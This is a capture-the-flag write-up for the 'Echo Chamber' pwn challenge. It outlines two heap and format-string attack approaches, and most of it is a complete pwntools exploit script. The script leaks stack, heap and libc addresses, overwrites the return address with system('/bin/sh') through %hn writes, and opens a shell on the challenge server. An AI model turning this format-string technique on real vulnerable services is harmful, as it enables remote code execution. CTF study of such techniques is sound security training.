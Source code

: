 # P.W.N. CTF

## _Echo Chamber_

## Information

**Category:** | **Points:** | **Solves** | **Writeup Author**
--- | --- | --- | ---
PWN | 552 | 8 | merrychap

**Description:** 

> Echo chambers are a thing nowadays. Flag in /opt.

`nc echochamber.uni.hctf.fun 13374 `


## TLDR Solution

[echo_chamber](./echo_chamber)

[libc.so.6](./libc.so.6)

[ld-linux.so.2](./ld-linux.so.2)


There were basically two different approaches to exploit the binary (at least, I found two of them).

1. The first one: Produce a double free attack in the echo loop using format string bug. After this, still in the echo loop, manage the `malloc` to allocate in the same chunk that was freed earlier. Quit from the echo loop and produce fastbin-like attack in tcache, allocating in `__free_hook`, writing `one_gadget` address there.

2. The second one: In the echo loop, use stack address chains to be able to write anywhere in the memory. Then just overwrite RET with the `system` address and RET+8 with the `/bin/sh` address in the given libc.

I decided to implement the second one exploit. The first one I found after the CTF ended.

```python
from time import sleep

from pwn import *


def main():    
    libc = ELF('./libc.so.6')

    pc = remote('echochamber.uni.hctf.fun', 13374)

    raw_input()

    pc.recvline()

    pc.sendline('%1$x')
    stack = int(pc.recv(10), 16) - 40
    print 'stack @ ' + hex(stack)

    pc.sendline('%5$x')
    text_base = int(pc.recv(10), 16) - 0x2029
    print 'text_base @ ' + hex(text_base)

    # 10 is an offset for buffer
    pc.sendline('%10$x')
    heap_base = int(pc.recv(10), 16) - 0x240
    print 'heap_base @ ' + hex(heap_base)

    pc.sendline('%19$x')
    libc_base = int(pc.recv(10), 16) - 241 - libc.symbols['__libc_start_main']
    print 'libc_base @ ' + hex(libc_base)
    print 

    print '1. become ' + hex((stack + 56) & 0xffff)
    print '2. become ' + hex((stack + 98) & 0xffff)

    target1 = libc_base + libc.symbols['system']
    target2 = libc_base + list(libc.search('/bin/sh'))[0]

    pc.sendline('A' * 32)

    # 61 is the offset for the server, but
    # 62 is for the local exploitation
    pc.sendline('%{}x%25$hn'.format((stack + 56) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92) & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 98) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92) >> 16))
    pc.sendline('%{}x%61$hn'.format((stack + 96) & 0xffff))
    pc.sendline('%{}x%24$hn'.format((target1) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92 + 2) & 0xffff))
    pc.sendline('%{}x%24$hn'.format((target1) >> 16))

    pc.sendline('%{}x%61$hn'.format((stack + 100) & 0xffff))
    pc.sendline('%{}x%14$hn'.format(target2 & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 100+2) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((target2 >> 16) & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 96) & 0xffff))

    pc.sendline('q')

    pc.sendlineafter('Was it fun?', 'A')
    pc.sendlineafter('Would you echo again?', 'A')

    pc.interactive()


if __name__ == '__main__':
    main()
```

> flag{something_with_tcache_ga48ghydgja}